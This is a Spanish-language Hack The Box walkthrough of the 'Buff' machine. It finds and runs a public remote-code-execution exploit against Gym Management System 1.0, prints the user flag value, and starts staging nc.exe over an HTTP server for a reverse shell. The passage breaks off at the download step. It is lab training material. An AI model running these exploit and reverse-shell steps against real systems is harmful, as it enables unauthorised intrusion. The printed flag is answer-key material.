 Con searchsploit encontramos un exploit disponible para el cms en la version 1.0, El cual podemos aprovechar para poder ejecutar comandos.



```console
kali@kali:~$ searchsploit gym
--------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                               |  Path
--------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Gym Management System 1.0 - Unauthenticated Remote Code Execution                                                                            | php/webapps/48506.py
WordPress Plugin WPGYM - SQL Injection                                                                                                       | php/webapps/42801.txt
--------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
  ```

---
## Explotando el CMS

Ejecutamos el exploit para obtener un shell.

```console
kali@kali:~/Documents/hackthebox/buff$ python 48506.py http://10.10.10.198:8080/
            /\
/vvvvvvvvvvvv \--------------------------------------,
`^^^^^^^^^^^^ /============BOKU====================="
            \/

[+] Successfully connected to webshell.
C:\xampp\htdocs\gym\upload> 
  ```

---

## 	User.txt

```console
C:\xampp\htdocs\gym\upload> type \users\shaun\desktop\user.txt
	�PNG

	9dfb44fec478b66cd90565d035a1a972
```
Ahora que obtuvimos el primer `flag`, toca trabajar en la escalación de privilegios para ello usamos el `nc.exe` y creamos una conexión reversa a nuestra máquina. 

```console
kali@kali:~$ cd /usr/share/windows-binaries
kali@kali:/usr/share/windows-binaries$ python3 -m http.server 4848
```
Descargamos el archivo en la máquina de la víctima. 
